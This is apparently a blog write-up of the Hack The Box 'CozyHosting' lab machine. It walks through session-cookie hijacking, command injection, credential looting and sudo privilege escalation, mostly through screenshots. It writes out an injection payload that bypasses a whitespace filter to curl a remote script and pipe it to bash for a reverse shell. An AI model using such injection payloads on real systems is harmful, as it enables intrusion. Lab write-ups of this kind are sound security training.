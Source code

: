 ```yaml
---
layout: post
title: "HTB Linux Easy: CozyHosting"
description: "CozyHosting is an Easy rated Linux machine on HTB."
categories: [CTF,HTB]
tags: [Linux,Easy]
author: g
---
```


## Nmap:
![Pasted image 20240715100803.png](/images/Pasted image 20240715100803.png){: .normal }


## Shell access

Add the `cozyhosting.htb` domain to the hosts file.
![Pasted image 20240715100809.png](/images/Pasted image 20240715100809.png){: .normal width="500" }


### Enumerating port 80
Default/standard credentials don't seem to work on the login page.
![Pasted image 20240715100757.png](/images/Pasted image 20240715100757.png){: .normal width="450" }

Directory busting using Dirsearch:
![Pasted image 20240715100753.png](/images/Pasted image 20240715100753.png){: .normal }

The `/actuator/sessions` seems interesting, visiting it results in a bunch of cookies being exposed, these could be used to try and login to the application if they are still valid.
![Pasted image 20240715100749.png](/images/Pasted image 20240715100749.png){: .normal width="450" }

The first cookie that belongs to the kanderson user was used to authenticate.
![Pasted image 20240715100743.png](/images/Pasted image 20240715100743.png){: .normal }


On the admin page we get a hint about SSH keys, the payload can be inspected in Burp.
![Pasted image 20240715100739.png](/images/Pasted image 20240715100739.png){: .normal }


After trying out a few things I found out that leaving the username blank returned some sort of man page. This means we could possibly get RCE.
![Pasted image 20240715100736.png](/images/Pasted image 20240715100736.png){: .normal }

Since we arent allowed to use whitespaces in the username section we’ll have to be creative with the payload:
```bash
# payload: 
host=127.0.0.1&username=";$(curl${IFS}10.10.14.153:8000/payload.sh|bash)"
```
![Pasted image 20240715100727.png](/images/Pasted image 20240715100727.png){: .normal }


On our machine we created a reverse shell bash script that we execute using curl.
![Pasted image 20240715100718.png](/images/Pasted image 20240715100718.png){: .normal width="450" }


The script can be accessed because we are running a Python server in the directory of the script.
![Pasted image 20240715100713.png](/images/Pasted image 20240715100713.png){: .normal }


Shell as the app user:
![Pasted image 20240715100706.png](/images/Pasted image 20240715100706.png){: .normal }



## Lateral movement
Transfer the jar file that is located in the app directory:
![Pasted image 20240715100701.png](/images/Pasted image 20240715100701.png){: .normal }
![Pasted image 20240715100657.png](/images/Pasted image 20240715100657.png){: .normal width="250" }

In the jar file credentials were identified: `postgres:Vg&nvzAQ7XxR`.
![Pasted image 20240715100650.png](/images/Pasted image 20240715100650.png){: .normal }

The previous credentials were used to authenticate to the postgres database. Inside of this database, we find the following credentials:
![Pasted image 20240715100646.png](/images/Pasted image 20240715100646.png){: .normal }

The admin password hash can be cracked using JohnTheRipper.
![Pasted image 20240715100641.png](/images/Pasted image 20240715100641.png){: .normal }

In `/etc/passwd` we can only find the Josh user.
![Pasted image 20240715100637.png](/images/Pasted image 20240715100637.png){: .normal }


SSH as the Josh user:
![Pasted image 20240715100632.png](/images/Pasted image 20240715100632.png){: .normal }


## Priv Esc
Sudo -l output.
![Pasted image 20240715100630.png](/images/Pasted image 20240715100630.png){: .normal }


GTFObins can be used to elevate to root using SSH:
![Pasted image 20240715100626.png](/images/Pasted image 20240715100626.png){: .normal width="650" }


## User.txt
![Pasted image 20240715100621.png](/images/Pasted image 20240715100621.png){: .normal width="400" }

## Root.txt
![Pasted image 20240715100615.png](/images/Pasted image 20240715100615.png){: .normal width="400" }


## Pwned
![Pasted image 20240715100608.png](/images/Pasted image 20240715100608.png){: .normal }


### Sources:
- [RCE without spaces](https://unix.stackexchange.com/questions/351331/how-to-send-a-command-with-arguments-without-spaces)
- [Send files via NC](https://nakkaya.com/2009/04/15/using-netcat-for-file-transfers/)
- [Priv Esc](https://gtfobins.github.io/gtfobins/ssh/#sudo)